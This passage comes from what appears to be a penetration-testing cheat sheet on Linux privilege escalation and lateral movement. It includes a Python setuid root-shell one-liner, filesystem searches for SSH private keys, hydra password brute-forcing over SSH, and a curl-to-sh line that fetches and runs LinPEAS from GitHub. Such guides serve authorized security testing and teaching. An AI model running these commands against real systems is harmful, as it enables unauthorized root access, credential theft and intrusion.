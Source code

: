 ### Capabilities Exploitation

```bash
# Check capabilities
getcap -r / 2>/dev/null

# Common capability escalations:
# cap_setuid+ep
getcap /usr/bin/python2.7
/usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

## 📊 Phase 7: Lateral Movement

### SSH Key Reuse

```bash
# Look for SSH keys
find / -name "id_rsa" -o -name "id_dsa" -o -name "*.pem" 2>/dev/null

# Use found keys
chmod 600 keyfile
ssh -i keyfile user@target
```

### Password Reuse

```bash
# Try found passwords on other services
hydra -l username -p foundpassword ssh://192.168.200.30
```

## 🛠️ Useful Linux-Specific Tools

### Enumeration Tools

```bash
# LinPEAS - Privilege Escalation Awesome Script
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

# Linux Exploit Suggester
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh

# LinEnum
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

# Linux Smart Enumeration
wget https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh
```

### Exploitation Tools
